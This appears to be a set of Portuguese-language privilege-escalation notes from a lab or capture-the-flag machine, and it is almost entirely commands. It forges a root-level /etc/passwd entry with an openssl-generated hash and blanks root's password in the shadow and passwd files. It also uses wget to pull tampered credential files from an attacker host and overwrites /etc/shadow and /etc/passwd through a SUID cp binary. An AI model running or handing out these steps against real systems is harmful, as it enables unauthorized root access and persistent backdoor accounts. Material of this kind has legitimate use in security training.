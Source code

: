 
`openssl passwd -1 -salt an4kein 1337`

`$1$an4kein$KpVTAUsL0SO0N532qSXyf.`

`an4kein:$1$an4kein$KpVTAUsL0SO0N532qSXyf.:0:0:/root/root:/bin/bash`


https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/

1- Remova a senha crypt que existe no SHADOW

antes:

`root:$6$8uypxcySfhhZ/p1p$1Sj6Bbm/gTNOqdmjVWJh9KjH/osqfXi4WQfVkoSEgL5OSKGo7cxdbQRQo.yzibIddtabSHYvDs1IbITaGTd/o.::0:99999:7:::`

depois:

`root:::0:99999:7:::`

2 - Remova o X que identifica que o user tem uma senha a ser inserida:

antes: 

`root:x:0:0:root:/root:/bin/bash`

depois:

`root::0:0:root:/root:/bin/bash`

Elevando o privilegio para root usando o cp com suid: 

```
[root@bravery shm]# ls -lav /usr/bin/cp
ls -lav /usr/bin/cp
-rwsr-xr-x. 1 root root 155176 Apr 11  2018 /usr/bin/cp
```

wget http://172.16.1.107:82/shadow -O shadow

wget http://172.16.1.107:82/passwd -O passwd


LFILE=/etc/shadow
echo "$(cat shadow)" | cp /dev/stdin "$LFILE"

LFILE=/etc/passwd
echo "$(cat passwd)" | cp /dev/stdin "$LFILE"
